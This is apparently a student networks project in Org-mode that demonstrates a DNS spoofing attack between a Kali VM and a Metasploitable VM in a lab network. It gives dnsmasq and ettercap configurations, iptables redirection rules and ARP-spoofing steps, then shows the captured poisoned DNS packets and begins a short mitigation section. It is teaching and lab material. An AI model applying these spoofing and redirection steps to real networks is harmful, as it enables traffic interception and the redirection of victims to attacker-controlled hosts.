 #+title: Networks Project
#+Author: Adithya Nair
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="https://gongzhitaao.org/orgcss/org.css"/>
* Background
This is a demonstration of a DNS Spoofing attack using virtual machines.

The process in brief, we start up a Kali VM running dnsmasq.

dnsmasq is a service that allows you to run a lightweight dns server for local networks. The attack works as follows.

A user attempts to access a domain, for this example we have poisoned the DNS records of the domain grouptwo.com. The Kali VM performs an ARP spoof, which sends ARP packets to all the devices in the local network to make the Kali VM act as the default gateway. All requests are routed through the VM now.

The VM is setup such that it performs IP forwarding, all packets are sent to their intended destination.

We update the IP tables to redirect and manage DNS traffic, both TCP and UDP packets. We also add in a command that updates the source address of the IP address of the DNS response to make it seem like it came from a legitimate DNS server (for example 8.8.8.8).

We apply the attack using the ettercap software as will be detailed below.

|---------------+-------+-------|
|         Table | Table | Table |
|---------------+-------+-------|
|  129308120398 |       |       |
| 9018120938120 |       |       |
|     320948129 |       |       |
|               |       |       |
* Implementation
We have two VMs, one running Kali Linux and the other running a VM called Metasploitable. These VMs exist in a virtual network with the network address 10.0.2.0
* Setup
** IP Address Info
 * Kali VM - 10.0.2.15
 * Metasploitable - 10.0.2.4
** On Kali
*** Writing The DNSMasq Configuration
#+begin_src conf
interface=eth0
address=/grouptwo.com/10.0.2.15
#+end_src
*** Writing The etter.dns configuration
#+begin_src dns
grouptwo.com A 10.0.2.15
#+end_src
*** Enabling IP Forwarding
#+begin_src shell
echo 1 > /proc/sys/net/ipv4/ip_forward
#+end_src
*** Configuring The IP Tables
#+begin_src shell
sudo iptables -t nat -A PREROUTING -p udp --dport 53 -j DNAT --to-destination 10.0.2.15:53
sudo iptables -t nat -A PREROUTING -p tcp --dport 53 -j DNAT --to-destination 10.0.2.15:53
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
#+end_src
* How To Execute The Attack
** On Kali
Start DNS Server
#+begin_src shell
sudo systemctl start dnsmasq.service
#+end_src

Start sniffing

#+begin_src shell
sudo ettercap -G
#+end_src

Click Accept

Apply scan for hosts.

Activate the DNS Spoofing plugin.
* Packets Captured
** Query
*** Summary
#+begin_example
97	39.532672	10.0.2.4	8.8.8.8	DNS	70	Standard query 0x8dd1 A google.com
#+end_example
*** YAML
#+begin_example
# Packet 0 from /home/kali/Desktop/dns_spoofing.pcap
- 97
- 39.532672
- 10.0.2.4
- 8.8.8.8
- DNS
- 70
- Standard query 0x8dd1 A google.com
#+end_example
*** Packet
#+begin_example
Frame 97: 70 bytes on wire (560 bits), 70 bytes captured (560 bits)
Ethernet II, Src: PCSSystemtec_c1:17:c2 (08:00:27:c1:17:c2), Dst: PCSSystemtec_ad:25:87 (08:00:27:ad:25:87)
Internet Protocol Version 4, Src: 10.0.2.4, Dst: 8.8.8.8
User Datagram Protocol, Src Port: 53085, Dst Port: 53
    Source Port: 53085
    Destination Port: 53
    Length: 36
    Checksum: 0x7275 [unverified]
    [Checksum Status: Unverified]
    [Stream index: 0]
    [Timestamps]
    UDP payload (28 bytes)
Domain Name System (query)
    Transaction ID: 0x8dd1
    Flags: 0x0100 Standard query
    Questions: 1
    Answer RRs: 0
    Authority RRs: 0
    Additional RRs: 0
    Queries
    [Response In: 98]
#+end_example

** Response
*** Summary
#+begin_example
99	39.533556	8.8.8.8	10.0.2.4	DNS	86	Standard query response 0x8dd1 A google.com A 10.0.2.15
#+end_example
*** YAML
#+begin_example
# Packet 1 from /home/kali/Desktop/dns_spoofing.pcap
- 98
- 39.532899
- 8.8.8.8
- 10.0.2.4
- DNS
- 86
- Standard query response 0x8dd1 A google.com A 10.0.2.15
#+end_example
*** Packet
#+begin_example
Frame 98: 86 bytes on wire (688 bits), 86 bytes captured (688 bits)
Ethernet II, Src: PCSSystemtec_ad:25:87 (08:00:27:ad:25:87), Dst: PCSSystemtec_c1:17:c2 (08:00:27:c1:17:c2)
Internet Protocol Version 4, Src: 8.8.8.8, Dst: 10.0.2.4
User Datagram Protocol, Src Port: 53, Dst Port: 53085
    Source Port: 53
    Destination Port: 53085
    Length: 52
    Checksum: 0x1c59 [unverified]
    [Checksum Status: Unverified]
    [Stream index: 0]
    [Timestamps]
    UDP payload (44 bytes)
Domain Name System (response)
    Transaction ID: 0x8dd1
    Flags: 0x8580 Standard query response, No error
    Questions: 1
    Answer RRs: 1
    Authority RRs: 0
    Additional RRs: 0
    Queries
    Answers
    [Request In: 97]
    [Time: 0.000227000 seconds]
#+end_example
* Ways To Mitigate Against The Attack
** Static ARP Entries
Assign a static IP Address to the router.
#+begin_src shell
arp -s <gateway-ip> <gateway-mac-address>
#+end_shell
** Dynamic ARP Inspection
